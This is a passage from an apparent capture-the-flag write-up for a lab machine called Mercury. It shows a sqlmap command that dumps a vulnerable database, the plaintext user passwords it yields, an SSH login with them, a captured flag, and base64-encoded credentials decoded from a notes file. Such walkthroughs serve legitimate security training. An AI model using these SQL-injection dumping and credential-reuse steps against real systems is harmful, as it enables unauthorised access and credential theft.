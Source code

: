 By performing this scan, I learned about the existence of the `mercury` database. The next step was to take a dump of the tables that are in the `mercury` database.

`sqlmap -u http://192.168.100.152:8080/mercuryfacts/ -D mercury --dump-all --batch`

There are two tables in the database - `facts` and `users` (confirming that the table exists). Reviewing the data dump of the tables, I found out that the users table contains data for logging in several users:

```
id,password,username
1,johnny1987,john
2,lovemykids111,laura
3,lovemybeer111,sam
4,mercuryisthesizeof0.056Earths,webmaster
```

Knowing that port 22 was open, I tried logging in to the `webmaster` user:

### SSH access
```
┌─[✗]─[parrot@parrot]─[~]
└──╼ $ssh webmaster@192.168.100.152
(...)
webmaster@mercury:~$ 
```

#### User flag
We did it! After logging in to `webmaster` we managed to find the first flag - `user_flag`.

```
webmaster@mercury:~$ ls
mercury_proj  user_flag.txt
webmaster@mercury:~$ cat user_flag.txt 
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```

I decided to look around the system. There I found a file `mercury_proj/notes.txt` with data on other accounts:
```
webmaster@mercury:~$ ls mercury_proj/
db.sqlite3  manage.py  mercury_facts  mercury_index  mercury_proj  notes.txt
webmaster@mercury:~$ cat mercury_proj/notes.txt 
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

These are most likely username and password encoded with base64 (as indicated by the `==` at the end of the string). I simply decoded them thus obtaining the credentials below:
decode:
```
linuxmaster:mercurymeandiameteris4880km
webmaster:mercuryisthesizeof0.056Earths
```
